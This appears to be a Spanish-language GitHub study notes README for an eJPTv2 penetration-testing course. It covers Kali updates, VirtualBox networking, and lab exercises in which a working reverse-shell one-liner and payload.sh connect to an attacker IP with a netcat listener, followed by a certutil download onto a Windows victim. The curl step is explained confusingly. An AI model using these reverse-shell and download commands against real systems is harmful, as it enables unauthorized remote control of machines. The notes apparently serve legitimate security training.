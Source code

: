 # eJPTv2

---

## Curso de la Academia: El Rincón del Hacker

---

En este Repositorio, apuntare todo lo que vaya aprendiendo de esta certificación. 

---------------------------------------------------------------------------------------------

Principalmente Mario nos pasa una máquina W7 para instalar en VirtualBox y nos explica como bajar una máquina Kali Linux para VirtualBox y cambiarle el idioma al teclado.

---

## Comandos para actualizar Kali Linux.

---

```bash
apt update
```

```bash
apt upgrade -y
```

```bash
apt autoremove
```
 <!-- Sirve para poder eliminar las dependencias huerfanas -->

```bash
apt dist-upgrade
```
 <!-- Se utiliza para actualizar todos los paquetes instalados a sus versiones más recientes -->

```bash
reboot
```
---

## Explicación sobre adaptador puente, NAT y Red NAT

---

Adaptador puente > las máquinas virtuales van a tener un comportamiento como si fuera un equipo más de mi red .

NAT > Network Address Translation. Es una técnica que permite que varias máquinas virtuales utilicen una sola dirección IP pública para acceder a Internet, compartiendo la conexión de red de la máquina anfitriona. Con NAT, las VMs pueden navegar por Internet, pero no son accesibles directamente desde la red externa, lo que proporciona aislamiento y seguridad adicional en entornos de laboratorio. 

Red NAT o Red Interna > Es una red que solo se ve en VirtualBox

---
 
## Netcad para entablar Reverse Shell*

---

Máquina atacante entramos en esta web: https://www.revshells.com/ rellenamos la ip de nuestra máquina atacante (10.0.10.51) y ponemos el puerto, en este caso usamos el 443 y la web nos devuelve un comando para ejecutar en la máquina víctima, el comando ha sido este: 

[`sh -i >& /dev/tcp/10.0.10.51/443 0>&1`](https://www.revshells.com/) es un comando que se utiliza para obtener una reverse shell desde la máquina víctima hacia la máquina atacante.

- `sh -i`: Inicia una shell interactiva.
- `>& /dev/tcp/10.0.10.51/443`: Redirige la entrada y salida estándar de la shell a una conexión TCP hacia la IP 10.0.10.51 en el puerto 443 (la máquina atacante).
- `0>&1`: Redirige la entrada estándar para que también vaya por la conexión TCP.

Esto permite que la máquina atacante controle la shell de la víctima a través de la red, siempre que en la máquina atacante esté escuchando Netcat en ese puerto.

antes de ejecutar el comando en la máquina víctima hay que lanzar en la máquina atacante por la terminal el comando:

`nc -nlvp 443` es un comando de Netcat (nc), una herramienta utilizada para leer y escribir datos a través de conexiones de red.  
- `-n`: No resuelve nombres de host (usa direcciones IP directas).
- `-l`: Escucha en modo servidor, esperando conexiones entrantes.
- `-v`: Modo verbose, muestra información detallada.
- `-p 443`: Especifica el puerto local (en este caso, el 443) donde escuchará.

Este comando abre un puerto 443 en la máquina atacante y espera conexiones entrantes, útil para recibir una reverse shell desde la máquina víctima.

Ejecutamos el comando en la máquina víctima (10.0.10.39) y esta establecerá una conexión hacia la máquina atacante. Desde la máquina atacante, al recibir la reverse shell, tendremos acceso remoto a la terminal de la víctima, lo que nos permitirá ejecutar comandos, lanzar scripts y realizar acciones de post-explotación.

---

## Compartir archivos desde mi red interna con un Servidor HTTP con Python + Reverse Shell**

---

<!-- Estos comandos se suelen usar en máquinas Linux -->

Nos movemos al directorio que queramos, por ejemplo:

```bash (Kali Linux)
cd /home/kali/Desktop
```

Creamos el script `payload.sh`:

```bash (Kali Linux)
nano payload.sh
```

Dentro del archivo `payload.sh` pegamos lo siguiente:

```bash (Kali Linux)
#!/bin/bash
bash -i >& /dev/tcp/10.0.10.51/443 0>&1
```

Guardamos y cerramos el archivo. Ahora, damos permisos de ejecución (opcional pero recomendable, **este apartado Mario no lo explica, pero Copilot dice que es recomendable**):

```bash (Kali Linux)
chmod +x payload.sh
```

Ponemos Netcat a la escucha en la máquina atacante:

```bash (Kali Linux)
sudo nc -nlvp 443
```

y desde la máquina atacante ejecutamos el siguiente comando:

El comando `curl http://10.0.10.51/443` esto intenta realizar una petición HTTP al puerto 443 de la dirección IP 10.0.10.51 y mostrar el contenido que recibe como respuesta. Sin embargo, normalmente el puerto 443 se usa para HTTPS, no para HTTP, por lo que si no hay un servidor web escuchando en ese puerto o no está configurado correctamente, el comando no funcionará o mostrará un error.

En el contexto de una reverse shell, este comando no ejecuta ninguna shell ni conecta con Netcat; solo descarga y muestra el contenido disponible en esa (por eso anteriormente hemos ejecutado sudo nc -nlvp 443)

---

## Compartir archivos desde mi red interna con un Servidor HTTP con Python en máquinas Windows

---

<!-- Estos comandos se suelen usar en máquinas Windows cuando no funciona curl ni winget -->

Creamos el archivo que queremos compartir, en este caso lo llamaremos `compartir.mp4`. Para ello, desde la máquina atacante ejecutamos:

```bash (Kali Linux)
nano compartir.mp4
```

Después, iniciamos un servidor web con Python en el mismo directorio donde está el archivo:

```bash (Kali Linux)
python3 -m http.server 80
```

Ahora, desde la máquina Windows (víctima), descargamos el archivo utilizando el siguiente comando:

```cmd (Windows 7)
certutil -split -urlcache -f http://10.0.10.51/compartir.mp4 compartir.mp4
```

Donde:
- La primera parte es la URL desde donde se descargará el archivo (la IP de la máquina atacante y el nombre del archivo).
- La segunda parte es el nombre con el que se guardará el archivo en la máquina Windows.

**Sintaxis general:**

```cmd
certutil -split -urlcache -f [URL_del_archivo] [nombre_destino]
```

Este método es útil para transferir archivos entre máquinas en una red interna, especialmente cuando no se dispone de herramientas como `curl` o `wget` en Windows.

---

## Reconocimiento de la red con ARP-SCAN o NETDISCOVER

---

